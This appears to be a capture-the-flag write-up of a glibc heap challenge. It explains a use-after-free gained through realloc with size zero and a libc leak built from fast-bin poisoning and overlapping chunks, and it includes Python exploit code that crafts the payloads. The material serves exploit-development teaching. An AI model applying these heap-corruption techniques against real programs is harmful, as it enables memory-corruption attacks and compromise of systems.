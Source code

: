 ## UAF (use after free)
To get UAF we will exploit the behavior of the [realloc](https://elixir.bootlin.com/glibc/glibc-2.42/source/malloc/malloc.c#L3561). First of all we notice that if we pass 0 it will free the chunk and return `NULL`. The program check if the realloc failed but it's not enough
```c
chunks[index].requested_size = new_size;

    void *new_chunk = realloc(chunks[index].allocated_chunk, chunks[index].requested_size);

    if (new_chunk == NULL) {
        puts("reallocation failed");
        return;
    }
```
We will get `reallocation failed` but now the chunk is free and we obtained a UAF primitive.

To write into it we need to expand it's size again (the challenge check the size stored in its struct when you try to write in the chunk). We can call resize again, becouse resize when called with a size <= old_size return the same chunk (without calling malloc), and size it's taken from the chunk metadata that we didn't change.
```py
realloc(chunk, 0x0)
realloc(chunk, SIZE)
```

## Libc leak
To leak a libc address we want to put a chunk in the unsorted bins to then print the main arena. The challenge limit the size of our allocation to 0x68 that is not enough to bypass the fast bins. So we need to free a bigger chunk. To do that we can try to poison the size header of an existing chunk and then free it. We can use the UAF to allocate overlapping chunks by poisoning fast bins metadata, but then the program will crush on `INVALID_SIZE(chunk)` check if we try to use the spoofed chunk.

We need to call free without going through the `INVALID_SIZE` check. To do that we can exploit realloc again. We can notice that if we want to allocate a bigger chunk which can't be directly expanded with the top chunk it will allocate a new chunk and copy the content of the old chunk in the new chunk. So the realloc will call malloc - memcpy - free.

We can exploit this behavior by allocating two overlapping chunks. We will put the chunk at the top in the fast bins and call resize on the other chunk. By doing this when realloc will call malloc it will return the overlapped chunk, and when it call memcpy it could overflow into the old chunk. In this way we can overwrite the chunk size just before the realloc call free on it. If we overwrite the size with a valid chunk size bigger than 0x80 the chunk will be stored in unsorted bins and we will be able to leak a libc address.

```py
malloc(ATTACKER_CHUNK_SIZE)  # This chunk will be used to overwrite metadata of the next chunk
malloc(TARGET_CHUNK_SIZE)    # This chunk will metadata will be poisoned
malloc(0x30)                 # Guard to avoid breaking top chunk
malloc(0x20)                 # Guard to avoid consolidation

# Creating a fake chunk overlapping the target chunk
payload = b"A" * 0x30 + p64(0x0) + p64(chunk_size(ATTACKER_CHUNK_SIZE) + 0x1) + p64(secret)
edit(0, payload)

# Exploit resize to get a UAF primitive
resize(0, 0x0)
resize(0, ATTACKER_CHUNK_SIZE)

# Poison fast bins to put the fake chunk in them
payload = p64(secret ^ (target_chunk_address - 0x30))
edit(0, payload)

# Put the fake chunk on top of the fast bins
malloc(ATTACKER_CHUNK_SIZE)

```